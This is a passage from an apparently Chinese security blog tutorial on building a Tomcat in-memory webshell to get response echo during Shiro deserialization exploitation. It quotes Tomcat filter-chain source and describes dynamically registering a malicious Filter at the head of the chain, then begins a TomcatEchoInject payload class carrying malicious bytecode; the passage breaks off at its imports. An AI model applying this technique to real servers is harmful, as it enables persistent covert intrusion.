                     Object[] args = new Object[]{req, res, this};
                    SecurityUtil.doAsPrivilege ("doFilter", filter, classType, args, principal);
                } else {
                    filter.doFilter(request, response, this);
                }
            } catch (IOException | ServletException | RuntimeException e) {
                throw e;
            } catch (Throwable e) {
                e = ExceptionUtils.unwrapInvocationTargetException(e);
                ExceptionUtils.handleThrowable(e);
                throw new ServletException(sm.getString("filterChain.filter"), e);
            }
            return;
        }

        // We fell off the end of the chain -- call the servlet instance
        try {
            if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
                lastServicedRequest.set(request);
                lastServicedResponse.set(response);
            }
            ...
        } catch (IOException | ServletException | RuntimeException e) {
            throw e;
        } catch (Throwable e) {
            e = ExceptionUtils.unwrapInvocationTargetException(e);
            ExceptionUtils.handleThrowable(e);
            throw new ServletException(sm.getString("filterChain.servlet"), e);
        } finally {
            if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
                lastServicedRequest.set(null);
                lastServicedResponse.set(null);
            }
        }
    }

先执行完所有的Filter了`filter.doFilter(request, response, this)`

因此，对于shiro的反序列化利用就没办法通过这种方式取到response回显了。

0x02 动态注册Filter
-------------------

没错的，正如标题所说，通过动态注册一个Filter，并且把其放到最前面，这样，我们的Filter就能最先执行了，并且也成为了一个内存Webshell了。

要实现动态注册Filter，需要两个步骤。第一个步骤就是先达到能获取request和response，而第二个步骤是通过request或者response去动态注册Filter

#### 步骤一

首先，我们创建一个继承AbstractTranslet（因为需要携带恶意字节码到服务端加载执行）的TomcatEchoInject类，在其静态代码块中`反射修改ApplicationDispatcher.WRAP_SAME_OBJECT为true，并且对lastServicedRequest和lastServicedResponse这两个ThreadLocal进行初始化`

    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
